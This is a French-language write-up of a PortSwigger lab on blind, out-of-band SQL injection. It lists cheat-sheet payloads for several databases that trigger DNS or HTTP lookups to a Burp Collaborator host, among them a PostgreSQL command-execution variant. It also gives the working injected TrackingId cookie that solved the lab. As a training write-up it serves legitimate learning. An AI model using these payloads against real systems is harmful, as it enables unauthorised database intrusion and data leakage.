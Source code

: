 # Lab

https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band

## Solution

Le cookie `TrackingId` est potentiellement vulnérable car vu dans d'autres lab.

Sauf que cette fois, l'injection est aveugle et on a pas de retour direct.

On peut tenté de récupérer des données en utilisant une requête DNS.

Sur la cheatsheet de PortSwigger, on trouve les requêtes suivantes :

- Oracle
  - `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`
- Microsoft
  - `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')`
  - `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`
- PostgreSQL
  - `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`
- MySQL
  - `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`
  - `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'`

On teste la première :

```http
Cookie: TrackingId='+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//i5oj8k6dshj2hkd8943moenj8ae12xqm.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

Et bingo, on a un retour dans Burp Collaborator, le lab est validé.